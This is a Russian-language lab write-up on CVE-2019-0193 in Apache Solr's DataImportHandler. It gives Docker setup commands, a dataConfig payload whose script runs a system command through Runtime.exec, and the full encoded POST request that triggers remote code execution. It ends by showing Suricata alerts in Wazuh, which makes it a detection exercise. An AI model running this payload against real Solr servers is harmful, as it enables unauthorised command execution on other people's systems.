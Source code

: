 # CVE-2019-0193

### Материалы:

* [https://nvd.nist.gov/vuln/detail/CVE-2019-0193](https://nvd.nist.gov/vuln/detail/CVE-2019-0193)
* [https://www.opencve.io/cve/CVE-2019-0193](https://www.opencve.io/cve/CVE-2019-0193)

В Apache Solr DataImportHandler, необязательный, но популярный модуль для получения данных из баз данных и других источников, имеет функцию, благодаря которой вся конфигурация DIH может быть получена из запроса параметра «dataConfig». \[Режим отладки экрана администратора DIH использует это для удобной отладки/разработки конфигурации DIH.&#x20;

Поскольку конфигурации DIH могут содержать сценарии, злоумышленники могут создавать опасные запросы, которые могут привести к удаленному выполнению команд.

### Эксплуатация уязвимости

Для запуска уязвимой среды выполните команды:

```
docker compose up -d
docker compose exec solr bash bin/solr create_core -c test -d example/example-DIH/solr/db
```

После запуска и создания нового ядра 'test' по адресу http://ваш-ip:8983 будет доступна веб-страница Apache Solr

<figure><img src="../../.gitbook/assets/image (4) (1) (1).png" alt=""><figcaption></figcaption></figure>

Перейдите на вкладку с новым ядром, затем dataimport -> Debug-Mode и вставьте следующую полезную нагрузку:

```
<dataConfig>
  <dataSource type="URLDataSource"/>
  <script><![CDATA[
          function poc(){ java.lang.Runtime.getRuntime().exec("touch /tmp/success");
          }
  ]]></script>
  <document>
    <entity name="stackoverflow"
            url="https://stackoverflow.com/feeds/tag/solr"
            processor="XPathEntityProcessor"
            forEach="/feed"
            transformer="script:poc" />
  </document>
</dataConfig>
```

Затем нажмите кнопку `Execute with this Configuration`&#x20;

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

После этого отправьте следующий запрос для успешной реализации уязвимости:

```
POST /solr/test/dataimport?_=1565835261600&indent=on&wt=json HTTP/1.1
Host: ваш-ip:8983
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: application/json, text/plain, */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: csrftoken=nNI9Q2RFGsJwDdNGaP5HHbW94e3aIVlTBNoKw9DjUnmRikDe4kOOEcTdK6mFnkc8
Upgrade-Insecure-Requests: 1
Content-type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://ваш-ip:8983/solr/
Content-Length: 683

command=full-import&verbose=false&clean=false&commit=true&debug=true&core=test&dataConfig=%3CdataConfig%3E%0A++%3CdataSource+type%3D%22URLDataSource%22%2F%3E%0A++%3Cscript%3E%3C!%5BCDATA%5B%0A++++++++++function+poc()%7B+java.lang.Runtime.getRuntime().exec(%22touch+%2Ftmp%2Fsuccess%22)%3B%0A++++++++++%7D%0A++%5D%5D%3E%3C%2Fscript%3E%0A++%3Cdocument%3E%0A++++%3Centity+name%3D%22stackoverflow%22%0A++++++++++++url%3D%22https%3A%2F%2Fstackoverflow.com%2Ffeeds%2Ftag%2Fsolr%22%0A++++++++++++processor%3D%22XPathEntityProcessor%22%0A++++++++++++forEach%3D%22%2Ffeed%22%0A++++++++++++transformer%3D%22script%3Apoc%22+%2F%3E%0A++%3C%2Fdocument%3E%0A%3C%2FdataConfig%3E&name=dataimport

```

> Перед отправкой замените csrf-токен на ваш собственный

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

После отправки запроса был создан файл /tmp/success

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

В Wazuh (https://ваш-ip/app/wazuh) мы можем увидеть соответствующие алерты от IDS Suricata об эксплуатации данной уязвимости.

<figure><img src="../../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

